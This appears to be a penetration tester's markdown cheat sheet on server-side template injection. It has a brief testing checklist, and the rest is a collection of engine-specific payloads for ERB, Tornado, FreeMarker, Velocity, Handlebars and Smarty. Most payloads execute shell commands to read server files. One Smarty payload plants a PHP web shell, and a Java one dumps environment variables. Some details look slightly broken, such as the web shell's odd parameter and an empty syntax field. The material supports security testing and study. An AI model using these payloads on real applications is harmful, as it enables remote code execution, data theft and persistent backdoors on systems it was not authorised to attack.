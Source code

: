 # Server-Side Template Injection {SSTI}

Server Side template injection is a vulnerability that arises when the web application utilizes a templating engine and excepts user input directly into a templated field or allows a user to use template commands directly without; limit, sanitization or restriction


## Testing for Server-Side Template Injection

+ Fuzz URL parameters with template syntax
+ Where page editing which returns somewhere on the web application is possible fuzz those inputs
+ Attempt to induce template related errors which reveal the template engine in use
+ Craft a exploit specific to the templating engine

![Determining Template Engine](./images/Template_Engine_Decision_Diagram.png)

~ From [Portswigger](https://portswigger.net/web-security/images/template-decision-tree.png) ~

### Typical Examples of Injectable Areas

#### URL Parameters

`domain.net/message?=close_template_tag}}insert_payload`

`domain.net/message?=close_template_tag%>insert_payload`

#### Page Editors

```
<p>Add ur html yay</p>

<p>{{payload}}</p>

```

### Identification Polyglots

`${{<%[%'"}}%\`

## Payloads By Template Engine

### ERB 

#### Tag Syntax

`<%= %>`

#### Identification Payloads

`<%= 7*7 %>`

#### General Payloads

`<%= system("cat /path/to/file") %>`

`<%= Dir.entries('/') %>`

`<%= File.open('/example/arbitrary-file').read %>`

### Tornado

#### Tag Syntax

`{{ }}`

#### Identification Payloads

`{{7*7}}`

#### General Payload

`{% import os %}{{ os.popen("cat /path/to/file").read() }}`

#### FreeMarker

##### Tag Syntax

`${ }`

#### Identification Payloads

`${7*7}`

##### General Payload

`<#assign ex="freemarker.template.utility.Execute"?new()> ${ ex("cat /path/to/file") }`

### Velocity

#### Tag Syntax

`$class`

#### Identification Payloads

```
#set( $a = "Velocity" )
$foo
```

#### General Payload

```
#set($str=$class.inspect("java.lang.String").type)
#set($chr=$class.inspect("java.lang.Character").type)
#set($ex=$class.inspect("java.lang.Runtime").type.getRuntime().exec("cat /path/to/file"))$ex.waitFor()
#set($out=$ex.getInputStream())
#foreach($i in [1..$out.available()])$str.valueOf($chr.toChars($out.read()))
#end
```

### Handlebars

#### Tag Syntax

`{{ }}`

#### General Payload

```
wrtz{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return require('child_process').exec('cat /path/to/file');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```

### Smarty

#### Tag Syntax

#### General Payload

`{Smarty_Internal_Write_File::writeFile($SCRIPT_NAME,"<?php passthru($_GET['cat /path/to/file']); ?>",self::clearConfig())}`

## Dumping Template Objects

+ It may not always be possible to escalate a SSTI vulnerability to gain RCE
+ However where template injection is possible there is still a high potential for sensitive data exposure and vulnerability chaining
+ One way to develop a meaningful exploit from a SSTI is to use the native templating languages environment variables to dump all the objects used in the context including custom developer ones

### JAVA Based Engines

`${T(java.lang.System).getenv()}`

## Resources

+ [ERB Syntax](https://www.stuartellis.name/articles/erb/)
+ [Server-Side template injection in tornado](https://opsecx.com/index.php/2016/07/03/server-side-template-injection-in-tornado/)
+ [ERB Template-Injection](https://www.trustedsec.com/blog/rubyerb-template-injection/)
+ [Black Hat Server-Side Template Injection](https://www.blackhat.com/docs/us-15/materials/us-15-Kettle-Server-Side-Template-Injection-RCE-For-The-Modern-Web-App-wp.pdf)